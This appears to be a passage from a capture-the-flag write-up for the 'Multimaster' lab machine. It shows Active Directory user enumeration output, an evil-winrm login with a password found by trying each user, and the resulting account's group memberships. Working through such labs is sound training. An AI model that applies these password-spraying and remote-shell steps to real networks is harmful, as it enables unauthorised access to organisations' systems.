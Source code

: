 distinguishedName : CN=Connor York,OU=New York,OU=Employees,DC=MEGACORP,DC=LOCAL
name              : Connor York
objectClass       : user
objectGUID        : 6c3c78ec-7e0a-48be-95d7-edd410457515
SamAccountName    : cyork
SID               : S-1-5-21-3167813660-1240564177-918740779-3107

distinguishedName : CN=Jorden Mclean,OU=Athens,OU=Employees,DC=MEGACORP,DC=LOCAL
name              : Jorden Mclean
objectClass       : user
objectGUID        : 0fa62545-eff1-4805-b16f-a18cf4217418
SamAccountName    : jorden
SID               : S-1-5-21-3167813660-1240564177-918740779-3110

distinguishedName : CN=Alessandro Dominguez,OU=London,OU=Employees,DC=MEGACORP,DC=LOCAL
name              : Alessandro Dominguez
objectClass       : user
objectGUID        : 0d1589a0-e3ae-431b-8568-b99922fdc40f
SamAccountName    : aldom
SID               : S-1-5-21-3167813660-1240564177-918740779-3115


i tried every user from them then i got access 
-----------------------------------------------------------
root@softwareuser:~/Desktop/multimaster# evil-winrm -i multimaster.htb -u sbauer -p D3veL0pM3nT!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\sbauer\Documents> 
-----------------------------------------------------------------------------------------------------
now i still don't have a fucking permission need to enumerate more-more more ~~~
-------------------------------------------------------------------

*Evil-WinRM* PS C:\Users\sbauer\Desktop> whoami /all

USER INFORMATION
----------------

User Name       SID
=============== =============================================
megacorp\sbauer S-1-5-21-3167813660-1240564177-918740779-3102


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                           Attributes
=========================================== ================ ============================================= ==================================================
Everyone                                    Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
MEGACORP\Developers                         Group            S-1-5-21-3167813660-1240564177-918740779-3119 Mandatory group, Enabled by default, Enabled group